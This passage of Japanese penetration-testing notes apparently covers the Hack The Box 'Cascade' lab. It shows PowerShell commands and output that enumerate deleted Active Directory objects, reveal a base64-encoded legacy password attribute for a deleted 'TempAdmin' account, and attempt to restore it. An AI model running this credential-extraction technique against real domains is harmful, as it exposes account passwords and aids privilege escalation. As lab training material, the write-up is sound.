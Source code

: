 c.f.)
- [hacking deram](https://www.hackingdream.net/2021/04/active-directory-penetration-testing-cheatsheet.html)
- [offsec journey](https://notes.offsec-journey.com/active-directory/domain-privilege-escalation)
- [MS official](https://docs.microsoft.com/en-us/powershell/module/activedirectory/restore-adobject?view=windowsserver2022-ps)

``` powershell
PS> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
...
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059 
...
```

見つかったdeleted userのパスワードを抽出できるかもしれないよ：
```
PS> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
                                                                                                                                                 
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
userPrincipalName               : TempAdmin@cascade.local
```

deleted objectを復活させる：

```
PS> Restore-ADObject -Identity 'OBJECT-ID HERE'
```

-> このboxでは**AD Recycle Bin**グループのメンバーだったにも関わらずInsufficient rightsでrestore出来なかった。（結局、見逃してたメールにAdminとTempAdminのパスワードが同じだと書いてあった）

#### Cascadeで改めて実感
できる人との違いは**enum力**だ！とにかくできる人はenum力がパナイ。今回もメールを見逃さず、現在のAdminのパスワードとTempAdminのパスワードが同じことを見逃さなかった。
